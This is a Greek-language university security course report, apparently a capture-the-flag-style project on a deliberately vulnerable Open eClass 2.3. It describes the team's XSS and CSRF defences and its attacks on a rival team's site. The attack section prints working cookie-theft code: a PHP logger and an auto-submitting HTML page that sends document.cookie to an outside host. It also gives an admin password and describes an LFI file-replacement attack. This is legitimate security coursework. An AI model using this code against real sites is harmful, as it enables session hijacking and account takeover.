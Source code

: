 ## Open eClass 2.3

Το repository αυτό περιέχει μια __παλιά και μη ασφαλή__ έκδοση του eclass.
Προορίζεται για χρήση στα πλαίσια του μαθήματος
[Προστασία & Ασφάλεια Υπολογιστικών Συστημάτων (ΥΣ13)](https://crypto.di.uoa.gr/csec/), __μην τη
χρησιμοποιήσετε για κάνενα άλλο σκοπό__.


## 2020 Project 1

Εκφώνηση: https://crypto.di.uoa.gr/csec/assets/projects/project1.pdf


### Μέλη ομάδας

- 1115201500038, Ευαγγελινού Ευστρατία 
- 1115201400297, Ματάνις Παναγιώτης

### Report

Συμπληρώστε εδώ __ένα report__ που
- Να εξηγεί τι είδους αλλαγές κάνατε στον κώδικα για να προστατέψετε το site σας (από την κάθε επίθεση).
- Να εξηγεί τι είδους επιθέσεις δοκιμάσατε στο αντίπαλο site και αν αυτές πέτυχαν.


### DEFENCES:

#### __XSS:__
Καταρχάς ελέγχηκε ο κώδικας του site σε οποιοδήποτε σημείο δινόταν είσοδος από τον χρήστη, κάποιον καθηγητή ή τον διαχειριστή (διάφορες φόρμες που υπήρχαν για στοιχεία, τίτλοι, ονόματα κλπ) για τυχόν αδυναμίες σε xss attacks. Προβλήματα εντοπίστηκαν στην πλειοψηφία των σημείων που εκτυπωνόταν η δοθείσα από το χρήστη τιμή και αντιμετωπίστηκαν με την χρήση της htmlspecialchars στο σημείο εξαγωγής τους από την βάση, για συλλογές στοιχείων αντικαταστάθηκε το η συλλογή στο σύνολο της. Το εν λόγω μέτρο προστασίας εφαρμόστηκε και σε διάφορα σημεία τα οποία εκ πρώτης όψης δεν παρουσίασαν κάποια αδυναμία σε επιθέσεις τέτοιου τύπου. Όσον αφορά την διαχείριση των αρχείων  επιλέξαμε να κάνουμε “υποχρεωτικό” το download απο τον χρήστη ώστε να μην μπορεί να εκτελεστεί το περιεχόμενο τους, όπως πχ γινόταν με αρχεία html. 

#### __SQL INJECTION:__
Όσον αφορά την συγκεκριμένη επίθεση μετά από διάφορες δοκιμές σε σημεία του site δεν βρέθηκε κάποια ευπάθεια, οπότε δεν έγινε και κάποια αλλαγή ως προς αυτό το κομμμάτι.

#### __CSRF:__
Η προστασία που επιλέχθηκε για την συγκεκριμένη επίθεση είναι αυτή της χρήσης ενός anti-CSRF  token. Το token δημιουργείται τυχαία κατά την έναρξη του κάθε session, είναι ξεχωριστό για το καθένα και αποθηκεύεται σε αυτό. Υπάρχει σε όλα τα σημεία που ο διαχειριστής μπορεί να εκτελέσει κάποια λειτουργία με την μορφή hidden input στην φόρμα και σε περίπτωση αποτυχίας συμπλήρωσης του κάνει exit() χωρίς να πραγματοποιηθεί καμία αλλαγή.
 

### ATTACKS:
Η αντίπαλη ομάδα ήταν οι 1337-h4x0rz. Οι επιθέσεις που δοκιμάστηκαν είναι οι παρακάτω

#### XSS:
Αρχικά δοκιμάστηκαν όλες οι φόρμες που είχαμε βρει από το δικό μας site ότι ήταν ευάλωτες σε τυχόν τέτοιες αδυναμίες, προσπαθώντας να εκτελέσουμε δικό μας κώδικα στην σελίδα. Καταφέραμε να εισάγουμε script σε διάφορα σημεία παρόλαυτα επιλέξαμε την ανταλλαγή αρχείων ως “κεντρικό” σημείο επίθεσης καθώς μας δινόταν η δυνατότητα να ανεβάσουμε αρχεία. 

#### CSRF:
Η συγκεκιμένη επίθεση συνδυάστηκε με την παραπάνω αδυναμία της ανταλλαγής αρχείων. Αρχικά το puppies διαμορφώθηκε με κατάλληλο τρόπο ώστε κάτα την είσοδο σε αυτό να ανακατευθύνει το χρήστη στην σελίδα της ανταλλαγής αρχείων πατώντας το συγκεκριμένο κακόβουλο αρχείο που είχε ανέβει. Το αρχείο με την σειρά του ανακατεύθυνε τον χρήστη πίσω στο puppies στέλνοντας ταυτόχρονα και το cookie του χρήστη. Το cookie αποθηκευόταν στο σέρβερ μας και το url της σελίδας άλλαζε ώστε να μην είναι δυνατόν για το χρήστη να καταλάβει ότι πέρασε από το eclass. Έπειτα χρησιμοποιώντας το cookie του admin συνδεθήκαμε ως διαχειριστές στην πλατφόρμα από όπου και πήραμε τον κώδικό της αντίπαλης ομάδας από το αρχείο ρυθμίσεων (**admin password: znEwSz57Qk**). 

* Puppies index.php:
```php
<html><body>
<h1><?= "Puppies!" ?></h1>
<img src="https://i.ytimg.com/vi/DhpYAyVsFXQ/hqdefault.jpg"></img>

<?php
    $cookie = $_POST["c"];
    
    /* Αν υπάρχει το cookie γράφετε στο log.txt*/
    if(isset($cookie)) {
        $file = fopen('log.txt', 'a');
        fwrite($file, $cookie. "\n\n");
    }
    else { /* Αν δεν υπάρχει cookie γίενται redirect στο redirect.html που είναι ανεβασμένο στην ανταλλαγη αρχείων του αντιπάλου */
        header ('Location:http://1337-h4x0rz.csec.chatzi.org/modules/dropbox/dropbox_download.php?id=14');
    }
?>
</body></html>
```

* Το αρχείο που ανεβάσαμε στην ανταλλαγή αρχείων. Κάνει redirect στο puppies στέλνοντας μαζί και το cookie: 
```html
<!-- redirect.html -->
<body onload='get_cookie()'>
<form method="post" action="http://xxx--cookielover--xxx.puppies.chatzi.org">
	<input type="hidden" name="c" id="c" value=''><br>
</form>

<script type="text/javascript">
      function get_cookie(){
      	 document.getElementById("c").value = document.cookie;
      	 document.forms[0].submit();
      }
</script>

</body>
```

Πέρα από αυτή την επίθεση δοκιμάσαμε στο τοπικό μας μηχάνημα καθώς και στην online έκδοση του eclass μια σειρά από επιθέσεις για δημιουργία/επεξεργασία μαθημάτων, τμημάτων, αποδοχή αιτήσεων καθηγητών κ.ά. Παρόλαυτα εφόσον πέτυχε η πρώτη επίθεση και βρέθηκε ο κωδικός του διαχειριστή δεν δοκιμαστηκαν περαιτέρω επιθέσεις μέσω του drunkadmin. Επισυνάπτονται οι επιθέσεις που δημιουργήθηκαν. 

#### LFI:
Η συγκεκριμένη επίθεση χρησιμοποιήθηκε για να παρακαμφθεί ο περιορισμός που υπήρχε απο το site και εκτελούσε download ενός αρχείου, που είχε ανέβει μέσω της εργασίας, όταν ο χρήστης κλίκαρε σε αυτό. Βρίσκοντας τον χώρο που ήταν αποθηκευμένα τα αρχεία καταφέραμε να εκτελέσουμε ενα php αρχείο το οποίο μετόνομασε το index.php σε index2.php και στην συνέχεια με αντίστοιχο τρόπο μετονομάσαμε ένα δικό μας αρχείο σε index.php. 
* Το σημείο που χρησιμοποιήσαμε για να εκτελέσουμε το php αρχείο που αλλάζει το index.php του eclass:
![LFI Attack](https://scontent.fath3-3.fna.fbcdn.net/v/t1.15752-9/95477098_245203889895725_8195861322433298432_n.png?_nc_cat=104&_nc_sid=b96e70&_nc_ohc=Oi_lGJH3SxsAX8yYTEx&_nc_ht=scontent.fath3-3.fna&oh=7a3295878d32b2d5d9e5d8e77889ce28&oe=5ED15B6D)





